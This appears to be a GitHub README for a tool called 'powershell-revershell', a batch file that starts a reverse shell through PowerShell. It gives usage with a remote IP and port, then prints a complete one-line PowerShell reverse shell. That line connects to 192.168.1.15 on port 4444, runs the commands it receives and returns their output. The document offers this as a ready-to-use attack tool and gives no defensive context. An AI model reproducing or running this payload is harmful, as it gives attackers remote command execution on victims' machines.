 # powershell-revershell

A bat file to execute a reverse shell using powershell without a ps1 file.

### Usage

revershell.bat \[RemoteIP] \[RemotePort]

Or

```powershell
powershell "$shell = New-Object System.Net.Sockets.TCPClient('192.168.1.15',4444);$stream = $shell.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'C7 PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$shell.Close()"
```
